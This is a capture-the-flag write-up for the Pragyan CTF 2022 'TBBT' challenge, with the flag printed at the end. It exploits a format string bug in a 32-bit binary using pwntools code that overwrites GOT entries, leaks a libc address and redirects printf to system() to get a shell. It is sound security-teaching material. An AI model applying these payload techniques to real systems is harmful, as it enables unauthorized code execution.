









# Pragyan CTF 2022 - TBBT

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [TBBT.zip](TBBT.zip)

There will be 1 file in zip:
- vuln

Download and extract, then we're ready to start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5788619d307e852a6bb996dcf05536b6600823b6, for GNU/Linux 3.2.0, not stripped
```

This is a 32-bit file without being stripped. Next, we will use `checksec` to check for all defences of file:

```
$ checksec vuln
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Just PIE is enable. Finally, we will decompile the file with ghidra to get the flow of program. At main() there is nothing interesting except the command lin() which jump to function lin().

In lin(), it first check if our input in main contain any character in this string ` 3456789:;\357ghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ` which is the `arr` global variable. If our inpput has character with that string then the program exit, but if not, we can input something interesting.



After we get there, it first fgets(local_90, 0x7f, stdin) and printf(local_90). Wait, can you see that? It the printf didn't have any format string for local_90 --> **Format string** bug. After printf is fflush() and putchar() which seems not interesting.

That's all we can find. Now let's move on the next part: Brainstorming!

# 2. Brainstorming

Because the program just execute 1 time so if we jump to lin and execute printf successfully, we still end the program and cannot do anything else. So the first thing we need to do is to overwrite some @got to jump back to lin() but somewhere **after** the check with `arr`.

Next, we will need to leak the `__libc_start_main_ret` address to find the correspond libc for further attack.

Finally, we will overwrite printf@got with system() so that when we fget() again, we just input `/bin/sh` and when it reachs printf, it just execute system("/bin/sh") and we get shell.

P/s: I realize that it gave me the address of main is because we have a function called nic() which might do something interesting but I think that's the fake flag because when I get shell, there are 2 files called `flag` and `not_flag` so our way maybe correct.

- Summary:
  1. Overwrite fflush@got to lin()+116
  2. Leak `__libc_start_main_ret` address
  3. Overwrite printf@got to system()

# 3. Exploit

I will jump to lin() with this code because main has nothing for us to focus:

```
# Get the main address and binary base address
p.sendlineafter(b'your name? \n', b'AAAAAAAA')
p.recvline()
main_addr = int(p.recvline()[:-1].split(b'. is ')[1], 16)
log.success("Main address: " + hex(main_addr))
exe.address = main_addr - exe.sym['main']
log.success("Exe address: " + hex(exe.address))

p.sendlineafter(b'2.No', b'1')
p.sendlineafter(b'2.No', b'1')
p.sendlineafter(b'2.No', b'\x01')    # Jump to lin() now
```

Do you notice why I send `\x01`? It is because in lin(), there is a check to check that 
if per char in our input (above input is `0x013131`) appear in the string of `arr` or not and will exit or continue execute, respectively. To avoid that I just simply use `\x01`.

And now, we start!

### Stage 1: Overwrite fflush@got to lin()+116

First, we will want to know the offset of format string which point to the begining of our payload. The following code will be used to check that:

```
p.sendlineafter(b'your name? \n', b'AAAAAAAA')
p.recvline()
main_addr = int(p.recvline()[:-1].split(b'. is ')[1], 16)
log.success("Main address: " + hex(main_addr))
exe.address = main_addr - exe.sym['main']
log.success("Exe address: " + hex(exe.address))
```

And we get the offset is at `%7$p`:



Because this is a 32-bit file so we just put the address of fflush@got at the beginning of payload and change value with `%n`. To overwrite fflush@got with `lin()+116` (Example is `0x565ae6a7`), we cannot just write `0x565ae6a7` byte to fflush@got because it's a large number and will take a long time to execute that.

To solve this, we will split the address into half and write the 2 bytes of fflush@got with 2 lower bytes of `lin()+116` and 2 bytes of fflush@got+2 with 2 higher bytes of `lin()+116`. With the example of lin() address above, we will want to write `0x565ae6a7` to fflush@got (for example containing `0x11111111`) so we will write as following:

```
# fflush@got = 0x11111111
# Overwrite fflush@got with 2 lower bytes: 0xe6a7
# fflush@got = 0x1111e6a7
# Overwrite fflush@got+2 (the address is added with 2) with 2 higher bytes: 0x565a
# fflush@got = 0x565ae6a7
```

To do that, we will need to place the address of fflush@got on stack and choose the correct format string offset first:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += b'%c%p'          # %c point to some address before payload and %p point to 'exe.got['fflush']'
payload += b'%c%p'          # %c point to 'PPPP' and %p point to 'exe.got['fflush']+2'
p.sendlineafter(b'But....', payload)
p.recvline()
print(p.recvline())
print(hex(exe.got['fflush']))
```

Execute script and we can get the correct fflust@got address:



Now, let's take the address of `lin()+116` and devided into 2 part:

```
lin_addr_middle_hex = hex(exe.sym['lin'] + 116)
part1 = int(lin_addr_middle_hex[-4:], 16)        # Lower bytes
part2 = int(lin_addr_middle_hex[-8:-4], 16)      # Higher bytes
```

So now we will want to change the 2 lower bytes first by using `%hn` for writing 2 bytes and we will use `%<k>c` with `k` specify number of byte for the padding so that we don't need to send a long payload to server:

```
payload = p32(exe.got['fflush'])           # 4 bytes
payload += b'PPPP'                         # 4 bytes
payload += p32(exe.got['fflush']+2)        # 4 bytes
payload += b'%c'*5                         # 5 bytes
payload += '%{}c%hn'.format(part1 - 17).encode()
payload += b'%c%p'
p.sendlineafter(b'But....', payload)
p.recvline()
print(p.recvline())
print(hex(exe.got['fflush']))
```

We want to write `part1` bytes but before `part1` we already write some bytes so just subtract `part1` with those byte and we get the correct number of bytes we want to write. Try to run that and debug with GDB, we see that the address changed:



We can see that 2 lower bytes changed successfully. Now it's time for the 2 higher bytes but first, let's try with `%hn` without any padding so our payload will update like this:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += '%{}c%hn'.format(part1 - 17).encode()
payload += b'%c%hn'                               # Change 
p.sendlineafter(b'But....', payload)
p.recvline()
print(p.recvline())
print(hex(exe.got['fflush']))
```

Execute that and we get it changed as follows:



We can see that 2 higher bytes will take the number of byte before it, which is currently `0xe578` bytes with 1 byte from `%c` before `%hn`. So we just take the higher byte and subtract with 2 lower byte and write to fflush@got. 

There is one problem, if the 2 higher bytes is lower than 2 lower bytes, the subtraction will lead to a negative number. To avoid that, we will write add the 2 higher byte with `0x10000` and with `%hn`, the number `1` in the third byte will not be written. So after we split the address of `lin()+116`, we will add this check:

```
lin_addr_middle_hex = hex(exe.sym['lin'] + 116)
part1 = int(lin_addr_middle_hex[-4:], 16)        # Lower bytes
part2 = int(lin_addr_middle_hex[-8:-4], 16)      # Higher bytes
if part2<part1:
    part2 += 0x10000
```

And we will write 2 higher bytes with the following code:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += '%{}c%hn'.format(part1-17).encode()
payload += '%{}c%hn'.format(part2-part1).encode()
p.sendlineafter(b'But....', payload)
p.recvline()
```

After executed script, we can see that we changed the fflush@got successfully:



That's pretty good! Let's move on next stage: Leak `__libc_start_main_ret` address

### Stage 2: Leak `__libc_start_main_ret` address

Because it's just a leak and doesn't require us to change any thing so I will include the code to leak the `__libc_start_main_ret` address inside the payload to overwrite fflush@got. But first, let's check where is `__libc_start_main_ret` placed at printf():

```
gef➤  x/100xw $esp
0xfff0cf90: 0xfff0cfac  0x0000007f  0xf7f3e580  0x56575517
0xfff0cfa0: 0x00000002  0x000007d4  0x0000000b  0x56577514    <-- Our input here
0xfff0cfb0: 0x50505050  0x56577516  0x63256325  0x63256325
0xfff0cfc0: 0x32256325  0x33363831  0x6e682563  0x33323225
0xfff0cfd0: 0x6e682563  0x24373825  0x00000a70  0xf7dc55b0
0xfff0cfe0: 0xfff0d048  0x000003e9  0xf7dd1b7d  0xf7f3f5e0
0xfff0cff0: 0xf7f3ed20  0x0000000b  0xfff0d038  0xc27ced00
0xfff0d000: 0xf7f3ed20  0x0000000a  0x0000000b  0x565774fc
0xfff0d010: 0xf7f3e000  0xf7f3e000  0xfff0d0e8  0xf7da8469
0xfff0d020: 0xf7f3e580  0x565760f6  0xfff0d044  0x0000003a
0xfff0d030: 0xf7f3e000  0x565774fc  0xfff0d0e8  0x565758e4
0xfff0d040: 0x57e481a2  0xf7f3e000  0xfff0d0e8  0x56575806
0xfff0d050: 0xfff0d08a  0xf7f7589c  0xf7f758a0  0x00003001
0xfff0d060: 0xf7f76000  0xf7f758a0  0xfff0d08a  0x00000001
0xfff0d070: 0x00000000  0x00c30000  0x00000001  0xf7f757e0
0xfff0d080: 0x00000000  0x00000000  0x00004034  0xc27ced00
0xfff0d090: 0x029c67af  0x00000534  0x0000008e  0xf7f3ca80
0xfff0d0a0: 0x00000000  0xf7f3e000  0xf7f757e0  0xf7f41c68
0xfff0d0b0: 0xf7f3e000  0xf7f5b2f0  0x00000000  0xf7d8b402
0xfff0d0c0: 0xf7f3e3fc  0x00000001  0x565774fc  0x565759c3
0xfff0d0d0: 0x41410001  0x41414141  0x000a4141  0x57e481a0
0xfff0d0e0: 0xfff0d100  0x00000000  0x00000000  0xf7d71ee5    <-- __libc_start_main_ret
0xfff0d0f0: 0xf7f3e000  0xf7f3e000  0x00000000  0xf7d71ee5
0xfff0d100: 0x00000001  0xfff0d194  0xfff0d19c  0xfff0d124
0xfff0d110: 0xf7f3e000  0xf7f76000  0xfff0d178  0x00000000
```

> P/s: `__libc_start_main_ret` is the place where the main() `ret` to.

After couting the offset, we get that `%87$p` will point to `__libc_start_main_ret`. So our payload in stage 1 will write `%87$p` (no need to write so use this will be fine) and payload change as follows:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += '%{}c%hn'.format(part1-17).encode()
payload += '%{}c%hn%87$p'.format(part2-part1).encode()    # Add here
p.sendlineafter(b'But....', payload)
p.recvline()
```

Execute script and we get the leak address:



Check that in GDB and we know it's correct:



So take this address and calculate libc base address with the following code:

```
__libc_start_main_ret = int(p.recvline().split(b'0x')[-1], 16)
log.success("__Libc_start_main_ret: " + hex(__libc_start_main_ret))
libc.address = __libc_start_main_ret - libc.sym['__libc_start_main_ret']
log.success("Libc base: " + hex(libc.address))
print(hex(exe.got['fflush']))
print(hex(exe.sym['lin'] + 116))
```

Now, let's move on the last stage: Overwrite printf@got to system()!

### Stage 3: Overwrite printf@got to system()

From this stage, we will do the same as we did in stage 1 so I just write code here:

```
system_addr_hex = hex(libc.sym['system'])
part1 = int(system_addr_hex[-4:], 16)
part2 = int(system_addr_hex[-8:-4], 16)
if part2<part1:
    part2 += 0x10000

payload = p32(exe.got['printf'])
payload += b'PPPP'
payload += p32(exe.got['printf']+2)
payload += b'%c'*10
payload += '%{}c%hn'.format(part1-22).encode()
payload += '%{}c%hn'.format(part2-part1).encode()
# payload = b'AAAA'
# payload += b'%p'*0x20
p.sendline(payload)
data = p.recvline()
```

After we write, just input string `/bin/sh` and it will execute system("/bin/sh").

Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `p_ctf{Sh3ld0N_1s_H4ppY_1H4t_u_4re_h4cK3R_7u9r4J}`